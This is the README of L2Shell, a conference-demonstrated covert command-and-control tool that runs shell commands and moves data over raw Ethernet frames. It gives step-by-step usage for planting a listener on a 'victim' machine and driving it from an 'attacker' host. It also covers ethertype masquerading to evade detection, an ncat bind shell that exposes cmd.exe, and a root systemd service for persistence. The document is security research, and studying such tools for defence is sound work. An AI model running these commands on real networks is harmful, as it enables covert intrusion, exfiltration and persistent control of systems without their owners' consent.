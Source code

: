 # L2Shell
BSides Presentation: LOLS: LO level Shells - Party Trick or Defenders Nightmare?

https://bsideslv.org/talks#ABCJ83

#### Important Disclaimer
L2Shell is a tool that was created and demonstrated for BSides Las Vegas 2024. The proof of concept, and versions thereafter should be used ethically and with permission from involved parties. It is suggested to abide by applicable and local laws. The researcher does not take responsibility in the distribution, modification, or usage of this code.

While L2Shell is a tool and combination of techniques that demonstrate covert communication, data smuggling and exfiltration with a focus on C2 capabilities specifically on data link layer, it is for demonstration and testing purposes. 

Other researchers, academic papers, and existing tools were referenced and consulted in preparation of the BSides LV conference. 

It is the researchers observation that this technique is consistent with ethernet communication since ethernets' creation, meaning this functionality could be used on all major network implementations that support those standards, being agnostic to both system and infrastructure.

With that, it is recommended that any network and operations stakeholders evaluate the threat that may result from this tool independently.


### Requirements
- pcap
- scapy

## L2Shell Usage
```
python l2shell.py -h

usage:
    e.g. python3 L2Shell.py -l -a 1a1a1a -s 3f3f3f <-- Victim Server
    e.g. python3 L2Shell.py -c -a 1a1a1a -s 3f3f3f <-- Attacker Server


options:
  -h, --help            show this help message and exit
  -l, --listen          Listen for connections
  -c, --connect         Connect and instruct commands
  -m MAC, --mac MAC     beacon mac address
  -s SESSION, --session SESSION
                        session id
  -a ATTACKER, --attacker ATTACKER
                        attacker id
  -d DELAY, --delay DELAY
                        frame delay for chunked responses
  -f FRAMESIZE, --framesize FRAMESIZE
                        Sets frame size (victim host)
  -p, --proxy           Proxy - UDP ports 1111, 2222
  -i INTERFACE, --interface INTERFACE
                        Interface
  -si, --setup-interface
                        Interface
  -et ETHERTYPE, --ethertype ETHERTYPE
                        Ethertype 0x0000-0xFFFF

```

### On victim machine:
```
python l2shell.py -l -a <attacker_id> -s <session_id>
```

### On Attacker machine
```
python l2shell.py -c -a <attacker_id> -s <session_id>
```

### Sending command (from attacker host)
```
> <command>
```

### enable options (from attacker host)
```
> enable options
```

### Changing framesize (victim)
```
python l2shell.py -l -f <frame_size> -a <attacker_id> -s <session_id>
```

### Changing chunked request delay (victim)
```
python l2shell.py -l -d <delay> -a <attacker_id> -s <session_id>
```

### Connect to Victim via Mac address - Victim responds with broadcasts
```
python l2shell.py -c/-l -m <aa:aa:aa:aa:aa:aa> -a <attacker_id> -s <session_id>
```

### Change interface
```
python l2shell.py -c/-l -a <attacker_id> -s <session_id> -i <interface guid>
```

### setup interface
```
python l2shell.py -c -a <attacker_id> -s <session_id> -si
```

### Ethertype Masquerading 
```
python l2shell.py -c -a <attacker_id> -s <session_id> -et <0x0000-0xFFFF>
python l2shell.py -l -a <attacker_id> -s <session_id> -et <0x0000-0xFFFF>
python l2shell.py -c -a <attacker_id> -s <session_id> -et <0x0000-0xFFFF> -p
```

## L2Tunnel - Tunneling Netcat
### Attacker Machine
```
python l2shell.py -c -a <attacker_id> -s <session_id> -p
```
```
ncat.exe 127.0.0.1 1111 --source-port 2223 -u
```
### Victim Node Machine
```
python l2shell.py -l -a <attacker_id> -s <session_id> -p
```
```
ncat.exe -lvnp 2223 -u -e cmd.exe
```
`note: The proxy option [-p] [--proxy] opens local ports 1111 and 2222`

## Linux Persistence via Service
```
/etc/systemd/system
sudo nano l2service.server
```
```
[Unit]
Description=L2Shell Listener Service
After=network.target

[Service]
ExecStart=python3 /tmp/L2Shell-main/l2shell.py -l -a att123 -s sess123
Restart=always
User=root

[Install]
WantedBy=multi-user.target
```
### Now enable the service
```
sudo systemctl daemon-reload
sudo systemctl start l2service.service
sudo systemctl enable l2service.service
```

